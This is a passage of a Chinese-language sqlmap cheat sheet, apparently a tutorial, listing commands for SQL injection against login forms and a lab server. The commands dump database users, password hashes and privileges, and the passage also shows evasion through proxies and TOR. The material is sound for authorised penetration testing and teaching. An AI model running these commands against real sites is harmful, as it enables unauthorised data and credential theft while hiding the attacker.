 8. 让sqlmap自动跑post注入，填表单

        sqlmap -u "http://www.xxx.com/login.asp" --forms

9. 看看当前用户是不是dba

        --is-dba
        -a
		
	Note:
        
        1) -a下面的那些命令是用来看用户，看主机，看权限的
        2) DBMS身份验证:--dbms-cred 
        	(些时候当前用户的权限不够，做某些操作会失败，如果知道高权限用户的密码，可以使用此参数切换用户)
        

10. 列举数据库用户

        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0
        
11. 列举数据库用户密码

        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0
        
12. 查看用户权限

        python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0
        
13. 使用基本认证

        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3

14. 使用Digest认证

        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3

15. 使用代理,配合TOR

        a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
        b. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"
        
16. 使用多线程猜解

        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3

17. 绕过动态检测,直接指定有注入点的参数

        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id"
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"

18. 指定数据库,绕过SQLMAP的自动检测

        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"
        * MySQL
        * Oracle
        * PostgreSQL
        * Microsoft SQL Server
        